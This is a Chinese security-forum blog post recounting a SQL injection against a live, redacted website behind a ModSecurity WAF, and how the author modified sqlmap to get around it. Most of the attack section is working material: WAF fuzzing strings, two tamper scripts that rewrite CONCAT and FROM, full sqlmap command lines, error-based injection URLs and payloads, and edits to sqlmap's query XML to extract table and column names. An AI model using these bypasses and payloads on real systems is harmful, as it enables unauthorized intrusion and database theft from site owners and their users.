 

# 一次注入实战引发的 SQLMAP 修改之路 - 先知社区

一次注入实战引发的 SQLMAP 修改之路

- - -

# 一、前言

SQLmap 的 payload 修改一般有两种方式： 
1、编写 tamper  
2、修改/添加 sqlmap 的 xml 文件语句自定义 payload

# 二、注入点 Fuzz

选中目标网站：[http://www.xxxx.com/journals\_desc.php?id=40](http://www.xxxx.com/journals_desc.php?id=40)  
单引号报错，对单引号进行转义，id=0=0 测试回显正常，int 型注入

[![](assets/1698897395-087452846f83c4df303b0a606038efba.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191128150651-a71aa4bc-11ad-1.png)

Order by 猜字段值为 7  
Waf 为 Modsec，直接使用 union select 被拦截：

[![](assets/1698897395-0bc38b7baadbae97d5fa24fb67b1444b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191128150707-b0415338-11ad-1.png)

```bash
Fuzz：
       单个 union    #不拦截
       单个 select    #不拦截
Union select  #拦截
union /**/ select #拦截
/*!00000union*/ select #内联注释，不拦截
/*!50000union*/ select 1,2,3,4,5,6,7
```

[![](assets/1698897395-f7804b45023c48eee7fa5658800279b6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191128150725-baf1a594-11ad-1.png)

此处应该是涉及到强弱类型转换的问题，int 为强类型，猜测对应的字段为弱类型  
解决方法：  
\[1\]使用 string 方法、但单引号’被被转义了，所以该方法行不通  
\[2\]采用报错注入

# 三、编写简单 Tamper 脚本绕过

（使用自带的 modsecurityzeroversioned.py 不能绕过）  
报错注入过程中，发现主要过滤关键词 from 和函数 concat（）  
1、concat() 被过滤：`concat()-->concat/**/()`  
对应 tamper 脚本 concat2concatcomment.py 如下：

```bash
#!/usr/bin/env python2
"""
Copyright (c) 2006-2019 sqlmap developers (http://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""
from lib.core.compat import xrange
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.LOW
def dependencies():
    pass
def tamper(payload, **kwargs):
    return payload.replace("CONCAT","CONCAT/**/")
```

2、from 被过滤，`from`\-->`/*!44144from*/`  
对应 tamper 脚本 from.py 如下：

```bash
#!/usr/bin/env python2
"""
Copyright (c) 2006-2019 sqlmap developers (http://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""
from lib.core.compat import xrange
from lib.core.enums import PRIORITY
__priority__ = PRIORITY.LOW
def dependencies():
    pass
def tamper(payload, **kwargs):
    return payload.replace("FROM","/*!44144FROM*/")
```

python sqlmap.py -u "[https://www.xxxx.com/journals\_desc.php?id=66](https://www.xxxx.com/journals_desc.php?id=66)" --level 3 --risk 3 -v 3 --tamper="from,concat2concatcomment" --force-ssl --technique=E

[![](assets/1698897395-9becb52fb7db2f4735203ffff4604e40.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191203115117-291b7916-1580-1.png)

`--dbs`读取（可以比对一下使用 tamper 脚本和使用 tamper 脚本后语句）  
payload in sqlmap:

```bash
AND (SELECT 8403 /*!44144FROM*/(SELECT COUNT(*),CONCAT/**/(0x716b707071,(SELECT REPEAT(0x34,1024)),0x71627a7a71,FLOOR(RAND(0)*2))x /*!44144FROM*/ INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)
```

[![](assets/1698897395-1ba1869e1b717f76159cef301c6a84d2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191203114925-e65a320c-157f-1.png)

`--tables`读取，很遗憾，读取失败

[![](assets/1698897395-7bd22600481d4f3bc540b2ae5c37e6ce.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191128150750-ca51e544-11ad-1.png)

再次把它的 payload 拿到本地测试，也是行不通的。语句很长，需要慢慢 fuzz 究竟是哪里被拦截、组合、函数、关键字？  
但是，，，，坑的是竟然不是因为过滤引起的？？？？

# 四、修改 SQLmap 的 xml 文件语句

实在不行了，去用手工注了出来，但是用 SQLmap 就是跑不出来？？？  
再去看一下 SQLmap 的 payload 是不是有问题，咋一看没什么大问题，所以我一开始也忽略了，卡了好久。也就是这里涉及到了直接修改 SQLmap 自带的语句。  
大家自行比较一下下面这两条语句看看能不能看出问题~  
1、

```bash
https://www.xxxx.com/journals_desc.php?id=40%20and%20updatexml/**/(1,concat/**//**/(0x7e,(select%20DISTINCT%20GROUP_CONCAT(table_name)/*!44144from*/%20%20%20information_schema.TABLES%20where%20table_schema=database())%20),1)
```

2、

```bash
https://www.xxxx.com/journals_desc.php?id=40%20and%20updatexml/**/(1,concat/**//**/(0x7e,(select%20DISTINCT%20GROUP_CONCAT(table_name)/*!44144from*/%20%20%20information_schema.`TABLES`%20where%20table_schema=database())%20),1)
```

下面讲几个概念  
\[1\]table 和 colums 在 mysql 中是特殊字符  
\[2\]反引号是 sql 语言的转义字符  
\[3\]在 mysql 中的 sql 语句为了避免与系统冲突给表名加上反引号，（但在指定其他数据库时不能加，否则会被认作是表）

我们可以看到这里 sqlmap 的 payload，对于 information\_schema.tables 中的 tables 并没有加反引号，指引到/xml/queries.xml

```bash
information_schema.tables --> information_schema.`tables`
```

当然，columns 也需要修改

```bash
information_schema.columns --> information_schema.`columns`
```

修改之后跑表：

```bash
python sqlmap.py -u "https://www.xxxx.com/journals_desc.php?id=66" --level 3 --risk 3 -v 3 --tamper="from,concat2concatcomment"   --technique=E   -D mililink_main --tables
payload in sqlamp（比对一下 payload，看看效果）:
66 AND (SELECT 9571 /*!44144FROM*/(SELECT COUNT(*),CONCAT/**/(0x716b7a6b71,(SELECT MID((IFNULL(CAST(table_name AS CHAR),0x20)),1,54) /*!44144FROM*/ INFORMATION_SCHEMA.`TABLES` WHERE table_schema IN (0x6d696c696c696e6b5f6d61696e) LIMIT 15,1),0x7171767071,FLOOR(RAND(0)*2))x /*!44144FROM*/ INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)
```

[![](assets/1698897395-bd02031ad32263b0be78e30f2f271f84.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191128150800-d00c86a6-11ad-1.png)

跑列值也是一样的，就不多说了，直接上图

[![](assets/1698897395-fb3e60d35abca54e6b3b5afe8b5497e3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191128150805-d34505f0-11ad-1.png)

五、关于 SQLmap 自定义 payload 的一些思考  
SQLmap 的 payload 修改，其实并不复杂。

tamper 脚本的编写，可以参考上边的 from.py 和 concat2concatcomment.py，它其实是有固定格式的。简单的自定义 paylaod 只需要在 def tamper(payload, \*\*kwargs) 函数中写入替换语句即可。可参考[https://payloads.online/archivers/2017-06-08/1](https://payloads.online/archivers/2017-06-08/1)

修改/添加 sqlmap 的 xml 文件语句来自定义 payload。需要找到对应的 xml 文件，然后修改 xml 文件中的语句。  
查询语句在\\sqlmap\\data\\xml\\ queries.xml 定义，若想自定义查询语句则只需要修改/添加想要执行的查询语句即可，如上边对 INFORMATION\_SCHEMA.`TABLES`的修改  
不同的注入方式使用的语句则需要在对应的注入方式中的 xml 语句进行修改，在\\sqlmap\\data\\xml\\payloads\\文件下

[![](assets/1698897395-36ccc568880d27790137521e93a3cf48.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191128150815-d8ab5148-11ad-1.png)

假若我们需要修改 error-base 注入方式的 payload，则需要在/xml/payload/error\_based.xml 中修改
